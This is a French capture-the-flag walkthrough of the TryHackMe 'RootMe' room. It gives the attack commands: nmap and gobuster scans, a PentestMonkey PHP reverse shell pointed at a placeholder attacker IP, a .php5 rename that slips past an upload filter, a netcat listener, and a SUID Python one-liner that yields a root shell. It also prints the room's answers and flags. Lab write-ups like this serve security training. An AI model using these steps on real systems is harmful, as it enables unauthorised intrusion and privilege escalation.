---
tags:
  - Web
  - TryHackMe
  - Facile
  - Nmap
  - Gobuster
---

# RootMe - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Reconnaissance, Web, Reverse Shell, Privilege Escalation |
| **Prérequis** | Bases Linux, Nmap, manipulation de shells, compréhension des permissions SUID |

## Contexte et objectifs

Dans la room RootMe, l'objectif est de prendre le contrôle d'une machine Linux exposant un site web vulnérable. Nous devrons identifier les services ouverts, exploiter une faille d'upload pour obtenir un shell, puis escalader les privilèges jusqu'à root.

!!! info "À propos de cette room"
    RootMe est idéale pour s'entraîner à la méthodologie de pentest sur une machine Linux typique : reconnaissance réseau, exploitation web, et élévation de privilèges locale. Elle met l'accent sur la logique d'attaque et la compréhension des faiblesses classiques.

## Méthodologie

### Étape 1 : Cartographie des ports avec Nmap

La première action est d'identifier les services exposés sur la cible. On utilise `-sC` pour lancer les scripts de détection par défaut et `-sV` pour identifier les versions des services.

```bash
nmap -sC -sV <IP_cible>
```

[](./screen/rootme/WindowsTerminal_tBSvR9jCtC.png)

Deux ports ouverts :
- **22/tcp** : SSH (OpenSSH 7.6p1) - pas d'identifiants pour l'instant, on y reviendra si nécessaire
- **80/tcp** : HTTP (Apache 2.4.41) - c'est le point d'entrée principal à explorer

!!! success "Réponses"
    **Combien de ports sont ouverts ?** → `2`
    **Quelle version d'Apache est utilisée ?** → `2.4.41`
    **Quel service tourne sur le port 22 ?** → `ssh`

### Étape 2 : Enumération de répertoires avec Gobuster

En visitant `http://<IP_cible>`, la page d'accueil ne présente rien d'exploitable en surface. On lance une énumération de répertoires pour découvrir des chemins cachés :

```bash
gobuster dir -u http://<IP_cible> -w /usr/share/wordlists/dirb/common.txt
```

!!! tip "Pourquoi Gobuster ici ?"
    Les applications web cachent souvent des interfaces d'administration ou des fonctionnalités sensibles derrière des chemins non documentés. `common.txt` est suffisant pour cette room : il couvre les noms de répertoires les plus fréquents.

[](./screen/rootme/WindowsTerminal_R685jQgxhB.png)

Deux répertoires intéressants apparaissent : `/panel/` et `/uploads/`. On ne connaît pas encore leur contenu exact, mais `/panel/` évoque souvent une interface d'administration : on commence par le visiter pour voir ce qu'il propose.

!!! success "Réponse"
    **Quel est le répertoire caché ?** → `/panel/`

### Étape 3 : Préparation du reverse shell PHP

En visitant `/panel/`, on trouve effectivement un formulaire d'upload de fichier. L'objectif est d'y déposer un reverse shell PHP pour obtenir une exécution de commandes sur le serveur.

[](./screen/rootme/msrdc_zF7NbV94t9.png)

On utilise le reverse shell de PentestMonkey (disponible sur GitHub) et on modifie les deux lignes suivantes pour qu'elles pointent vers notre machine d'attaque :

```php
$ip = '<VOTRE_IP>';
$port = 4444;
```

On enregistre sous `shell.php`.

[](./screen/rootme/yG8yRuVWKd.png)

!!! info "Qu'est-ce qu'un reverse shell ?"
    Un reverse shell est un script qui, une fois exécuté sur la cible, ouvre une connexion vers l'attaquant et lui donne accès à la ligne de commande. La connexion est initiée par la victime vers nous, ce qui contourne les firewalls qui bloquent les connexions entrantes.

### Étape 4 : Contournement du filtre d'extension

On tente d'abord d'uploader `shell.php` directement. Le serveur refuse : les fichiers `.php` sont bloqués par un filtre d'extension.

[](./screen/rootme/msrdc_wBtAUDzDGZ.png)

Pour contourner ce filtre, on renomme le fichier en `shell.php5`. Apache interprète les deux extensions comme du PHP, mais le filtre - basé sur une liste noire d'extensions exactes - ne bloque que `.php`.

[](./screen/rootme/WindowsTerminal_u7XJZW96it.png)

!!! tip "Pourquoi .php5 fonctionne ?"
    Les filtres basés sur une liste noire d'extensions exactes sont contournables dès qu'une extension alternative est acceptée. `.php5`, `.phtml`, `.phar` sont toutes interprétées par Apache comme du PHP.

### Étape 5 : Upload et obtention du shell

On démarre un listener Netcat qui attendra la connexion de la cible :

```bash
nc -lvnp 4444
```

On uploade `shell.php5` via le formulaire `/panel/`. Le nom du répertoire `/uploads/` repéré à l'étape 2 laisse penser que les fichiers déposés y sont stockés : on teste cette hypothèse en visitant le chemin correspondant pour déclencher l'exécution du script :

```
http://<IP_cible>/uploads/shell.php5
```

[](./screen/rootme/msrdc_l2KaUd36ep.png)

[](./screen/rootme/msrdc_vsXehLKYEz.png)

La connexion arrive sur le listener avec les droits `www-data`.

[](./screen/rootme/WindowsTerminal_5B53778kIg.png)

### Étape 6 : Flag utilisateur

On cherche le flag utilisateur. On ne connait pas son emplacement exact, donc on utilise `find` pour le localiser sur tout le système :

```bash
find / -type f -name user.txt 2>/dev/null
cat /var/www/user.txt
```

[](./screen/rootme/WindowsTerminal_yiE4mixLE8.png)

!!! success "Réponse"
    **user.txt** → `THM{y0u_g0t_a_sh3ll}`

### Étape 7 : Recherche de binaires SUID

On dispose d'un shell en tant que `www-data`, un utilisateur limité. Pour passer root, on cherche des binaires avec le bit SUID activé : ces binaires s'exécutent avec les droits de leur propriétaire (souvent root), peu importe qui les lance.

```bash
find / -perm -u=s -type f 2>/dev/null
```

[](./screen/rootme/EvAnjpk74A.png)

`/usr/bin/python` ressort avec le bit SUID. Ce n'est pas une configuration normale : Python n'a aucune raison légitime d'être SUID.

!!! success "Réponse"
    **Quel fichier SUID est inhabituel ?** → `/usr/bin/python`

### Étape 8 : Escalade de privilèges via Python SUID

On consulte GTFOBins pour trouver comment exploiter un binaire Python avec le bit SUID. GTFOBins recense les techniques d'escalade pour chaque binaire Unix courant.

[](./screen/rootme/brave_3WyecebwdJ.png)

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

!!! tip "Pourquoi le flag `-p` ?"
    Sans `-p`, bash abandonne les privilèges SUID au démarrage (comportement de sécurité par défaut). Le flag `-p` (privileged) force le shell à conserver les droits effectifs hérités, soit root dans ce cas.

[](./screen/rootme/WindowsTerminal_jWfbEeMend.png)

### Étape 9 : Flag root

```bash
cat /root/root.txt
```

[](./screen/rootme/WindowsTerminal_6TCpnXD30B.png)

!!! success "Réponse"
    **root.txt** → `THM{pr1v1l3g3_3sc4l4t10n}`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | Upload sans validation d'extension robuste, bit SUID sur Python |
| **Techniques utilisées** | Enumération de répertoires, bypass de filtre d'extension, reverse shell PHP, exploitation SUID |
| **Outils employés** | Nmap, Gobuster, Netcat, Python |

!!! abstract "Ce qu'il faut retenir"
    1. Trouver `/panel/` et `/uploads/` ensemble oriente immédiatement vers un scénario d'upload de reverse shell.
    2. Les filtres d'extension par liste noire sont contournables : `.php5`, `.phtml`, `.phar` sont toutes du PHP pour Apache.
    3. Un binaire SUID inhabituel (Python, Vim, etc.) est presque toujours un vecteur d'escalade de privilèges - vérifier sur GTFOBins.
